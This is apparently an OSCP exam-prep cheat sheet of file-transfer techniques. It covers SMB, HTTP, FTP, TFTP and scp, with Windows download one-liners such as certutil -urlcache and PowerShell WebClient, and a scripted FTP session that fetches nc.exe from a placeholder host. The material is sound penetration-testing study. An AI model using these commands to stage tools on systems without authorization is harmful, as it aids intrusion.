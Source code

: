 # OSCP File Transfer Checklist

## SMB Server

```sh
impacket-smbserver share . -smb2support -user user -password test1230
```

```cmd
net use z:\ \\<smbserver>\share /USER:user test123
copy z:\ .
```

## HTTP

### Server

```sh
python -m SimpleHTTPServer 8080
```

```sh
service apache2 start
```

### Client

Windows
``` cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\temp\file.exe')"
iwr -uri http://<IP>/file -Outfile c:\temp\file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

Linux
```sh
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd
Note: sudo apt update && sudo apt install pure-ftpd

```sh
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Transfer
```
echo open <IP> 21> ftp.txt
echo USER <user> >> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp

Note :  install atftp
Coofig
```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
Transfer
```
tftp -i <IP> get file
```

## scp

Local File to a Remote System
```sh 
scp file <user>@192.168.0.20:/home/<directory>/
```
Remote File to a Local System
```sh 
scp <user>@192.168.0.20:/home/<directory>/ file
```
